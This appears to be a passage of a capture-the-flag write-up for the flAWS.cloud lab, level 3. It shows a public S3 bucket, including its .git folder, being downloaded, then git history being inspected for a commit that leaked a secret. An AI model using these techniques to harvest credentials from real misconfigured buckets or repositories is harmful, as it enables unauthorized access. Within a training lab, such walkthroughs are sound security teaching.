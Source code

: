 ```
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/e3/ae6dd991f0352cc307f82389d354c65f1874a2 to flAWS-L3/.git/objects/e3/ae6dd991f0352cc307f82389d354c65f1874a2
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/refs/heads/master to flAWS-L3/.git/refs/heads/master
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint1.html to flAWS-L3/hint1.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/f5/2ec03b227ea6094b04e43f475fb0126edb5a61 to flAWS-L3/.git/objects/f5/2ec03b227ea6094b04e43f475fb0126edb5a61
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/f2/a144957997f15729d4491f251c3615d508b16a to flAWS-L3/.git/objects/f2/a144957997f15729d4491f251c3615d508b16a
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/b6/4c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 to flAWS-L3/.git/objects/b6/4c8dcfa8a39af06521cf4cb7cdce5f0ca9e526
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint2.html to flAWS-L3/hint2.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/robots.txt to flAWS-L3/robots.txt
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/index.html to flAWS-L3/index.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint3.html to flAWS-L3/hint3.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint4.html to flAWS-L3/hint4.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/76/e4934c9de40e36f09b4e5538236551529f723c to flAWS-L3/.git/objects/76/e4934c9de40e36f09b4e5538236551529f723c
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/authenticated_users.png to flAWS-L3/authenticated_users.png
```

Let's search this bucket.
```
└─$ cd .git
```
```
└─$ cat logs/refs/heads/master
```
```
0000000000000000000000000000000000000000 f52ec03b227ea6094b04e43f475fb0126edb5a61 0xdabbad00 <scott@summitroute.com> 1505661007 -0600   commit (initial): first commit
f52ec03b227ea6094b04e43f475fb0126edb5a61 b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 0xdabbad00 <scott@summitroute.com> 1505661043 -0600   commit: Oops, accidentally added something I shouldn't have
```

People often accidentally add secret things to git repos, and then try to remove them without revoking or rolling the secrets. You can look through the history of a git repo by running: 
```
└─$ git log                               
```
```
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```
